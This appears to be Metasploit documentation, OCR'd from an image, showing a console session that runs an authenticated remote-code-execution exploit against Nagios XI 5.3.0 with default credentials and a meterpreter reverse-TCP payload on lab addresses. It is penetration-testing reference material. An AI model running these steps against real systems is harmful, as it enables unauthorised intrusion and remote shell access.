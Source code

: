 
### Nagios XI 5.3.0 running on CentOS 7 (unfinished installation) - Linux (x64) target
```
msf > use exploit/linux/http/nagios_xi_plugins_check_plugin_authenticated_rce
[*] Using configured payload linux/x64/meterpreter/reverse_tcp
msf exploit(linux/http/nagios_xi_plugins_check_plugin_authenticated_rce) > set rhosts 192.168.1.16
rhosts => 192.168.1.16
msf exploit(linux/http/nagios_xi_plugins_check_plugin_authenticated_rce) > set lhost 192.168.1.28
lhost => 192.168.1.28
msf exploit(linux/http/nagios_xi_plugins_check_plugin_authenticated_rce) > set password nagiosxi
password => nagiosxi
msf exploit(linux/http/nagios_xi_plugins_check_plugin_authenticated_rce) > set finish_install true
finish_install => true
msf exploit(linux/http/nagios_xi_plugins_check_plugin_authenticated_rce) > show options

Module options (exploit/linux/http/nagios_xi_plugins_check_plugin_authenticated_rce):

   Name            Current Setting  Required  Description
   ----            ---------------  --------  -----------
   FINISH_INSTALL  true             no        If the Nagios XI installation has not been completed, try to do so
                                              . This includes signing the license agreement.
   PASSWORD        nagiosxi         yes       Password to authenticate with
   Proxies                          no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS          192.168.1.16     yes       The target host(s), range CIDR identifier, or hosts file with synt
                                              ax 'file:<path>'
   RPORT           80               yes       The target port (TCP)
   SRVHOST         0.0.0.0          yes       The local host or network interface to listen on. This must be an
                                              address on the local machine or 0.0.0.0 to listen on all addresses
                                              .
   SRVPORT         8080             yes       The local port to listen on.
   SSL             false            no        Negotiate SSL/TLS for outgoing connections
   SSLCert                          no        Path to a custom SSL certificate (default is randomly generated)
   TARGETURI       /nagiosxi/       yes       The base path to the Nagios XI application
   URIPATH                          no        The URI to use for this exploit (default is random)
   USERNAME        nagiosadmin      yes       Username to authenticate with
   VHOST                            no        HTTP server virtual host


Payload options (linux/x64/meterpreter/reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  192.168.1.28     yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   1   Linux (x64)


msf exploit(linux/http/nagios_xi_plugins_check_plugin_authenticated_rce) > run

[*] Started reverse TCP handler on 192.168.1.28:4444
```